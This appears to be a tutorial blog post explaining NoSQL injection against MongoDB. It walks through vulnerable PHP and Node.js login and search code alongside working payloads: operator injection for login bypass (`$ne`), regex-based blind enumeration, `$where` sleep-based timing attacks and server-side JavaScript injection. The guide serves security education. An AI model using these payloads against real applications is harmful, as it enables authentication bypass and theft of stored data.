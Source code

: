 ```yaml
---
title: "Introduction to NoSQL Injection Attacks"
date: 2025-02-18
draft: false
description: "Introduction into NoSQL Injection Attacks"
tags: ["NoSQL", "Guide"]
---
```

<link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/6.5.1/css/all.min.css">

## <i class="fa-solid fa-syringe text-primary-400"></i> Overview
<span class="text-primary-400">NoSQL</span> databases like MongoDB, Couchbase, and Cassandra have gained immense popularity due to their flexibility, scalability, and performance benefits over traditional relational databases. However, with this rise in adoption comes an increase in security vulnerabilities. NoSQL injection attacks occur when <span class="text-primary-400">untrusted user input is improperly handled and executed</span> within a NoSQL query, allowing an attacker to manipulate database operations. These vulnerabilities are <span class="text-primary-400">as dangerous as traditional SQL injections</span> but are often overlooked due to the misconception that NoSQL databases are inherently secure.

## <i class="fa-solid fa-compass text-primary-400"></i> Types of NoSQL Injection
NoSQL injection attacks can be categorized based on how the attacker interacts with the database and the feedback received. Understanding these types is crucial for both developers and security professionals to identify and mitigate potential threats.

### In-Band Injection
In-Band Injection involves the attacker using the <span class="text-primary-400">same communication channel</span> to both launch the attack and gather results. This method is straightforward because the feedback is immediate.

<b class="text-primary-400">Example Scenario</b>: Consider a web application using MongoDB that accepts user login credentials via an HTTP `POST` request. The vulnerable PHP code might look like this:

```php
// Vulnerable PHP code
$collection->find([
    'username' => $_POST['username'],
    'password' => $_POST['password']
]);

$collection->find($query);
```

An attacker can craft an HTTP request to exploit this unsanitized input:

{{< highlight http "linenos=false,hl_lines=5" >}}
POST /login.php HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded

username=admin&password[$ne]=null
{{< /highlight >}}

<b class="text-primary-400">Explanation</b>: PHP Array Syntax -- When writing MongoDB queries in PHP, arrays represent MongoDB’s query structure. The syntax `password[$ne]=null` translates to an associative array in PHP:

```php
$query = [
    'password' => [
        '$ne' => null
    ]
];
```

Resulting Query:

```php
db.users.findOne({
    username: "admin",
    password: { "$ne": null }
});
```

Since the password is <span class="text-primary-400">not null</span>, the condition is <span class="text-primary-400">true</span>, and the attacker gains unauthorized access as the admin.

### Blind Injection
Blind Injections occur when an attacker <span class="text-primary-400">cannot see the direct results</span> of their injected queries but can <span class="text-primary-400">infer information based on the application’s responses</span>, such as differences in content, HTTP status codes, error messages, or response times.

#### Boolean-Based
In a <span class="text-primary-400">Boolean-Based Blind Injection</span>, the attacker sends <span class="text-primary-400">queries that evaluate to either true or false</span> and observes the application’s behavior to infer information about the database.

<b class="text-primary-400">Example Scenario</b>: Consider a search functionality with a NoSQL Injection vulnerability, where users can search for products. An attacker sends a request with a crafted search term:

```HTTP
GET /search.php?search[$regex]=^S.* HTTP/1.1
Host: example.com
```

If a product starting with the letter “<span class="text-primary-400">S</span>” exists:

{{< highlight http "linenos=false,hl_lines=5" >}}
HTTP/1.1 200 OK
Content-Type: text/html

{
  Exists: true
}
{{< /highlight >}}


Otherwise:

{{< highlight http "linenos=false,hl_lines=4" >}}
HTTP/1.1 200 OK
Content-Type: text/html

No products found.
{{< /highlight >}}

To extract the full name of the product, the attacker continues testing each subsequent character to reconstruct the produc name:

```
search[$regex]=^Se.*  ✔️
search[$regex]=^Sea.* ✖️
search[$regex]=^Sec.* ✔️
…
search[$regex]=^SecretProduct$
```

The `$` indicates the end of a string, verifying if the entire word is correct.

#### Time-Based
In a <span class="text-primary-400">Time-Based Blind Injection</span>, the attacker sends queries that cause the server to <span class="text-primary-400">delay its response when certain conditions are true</span>. By measuring these response times, the attacker can infer information about the database.

<b class="text-primary-400">Example Scenario</b>: Assume a NoSQL Injection vulnerability in the username parameter:

```HTTP
POST /login HTTP/1.1
Host: example.com
Content-Type: application/json

{
    "username": {
       "$where": "function() { if(this.username == 'admin') { sleep(5000); } return true; }"
    },
    "password": "randompassword"
}
```

<b class="text-primary-400">Explanation</b>: JavaScript Function -- The `this` keyword refers to the current document being evaluated in the collection.

```JS
if(this.username == 'admin') { sleep(5000); }
```

<b class="text-primary-400">Behavior</b>: If `this.username == 'admin'` evaluates to true, the function calls `sleep(5000)` to delay the response by 5 seconds, indicating that the username exists. Otherwise, the response time remains normal.

An attacker can enumerate usernames or other fields character by character using a similar method:

```Json
{
    "username": {
        "$where": "function() { if (this.username[0] == 'a') { sleep(5000); } return true; }"
    },
    "password": "irrelevant"
}
```

By systematically testing each character position, the attacker can reconstruct sensitive information.

### Server-Side JavaScript Injection (<span class="text-primary-400">SSJI</span>)
MongoDB allows the use of JavaScript expressions in queries via the `$where` operator. If not handled securely, this feature can be exploited.

<b class="text-primary-400">Example Scenario</b>: Consider the following MongoDB query in a Node.js application:

```JS
collection.findOne({
  $where: `this.username == '${username}' && this.password == '${password}'`
}, function(err, user) {
    if (user) {
        res.send('Logged in as ' + user.username);
    } else {
        res.send('Authentication failed');
    }
});
```

An attacker can manipulate the `username` field to inject malicious code:

```HTTP
POST /login HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded

username=admin' || true //&password=anything
```

Resulting Query:

```JS
db.users.findOne({
    $where: "this.username == 'admin' || true // ' && this.password == 'anything'"
});
```

<b class="text-primary-400">Effect</b>: The condition `this.username == 'admin' || true` always evaluates to true, allowing the attacker to bypass authentication.

<b class="text-primary-400">Further Exploitation</b>: Attackers can use injections like `" || ""=="` or `" || true || ""=="` to evaluate the entire query to true. They can also enumerate fields using functions like `match($regex)` and the character-by-character approach mentioned earlier.
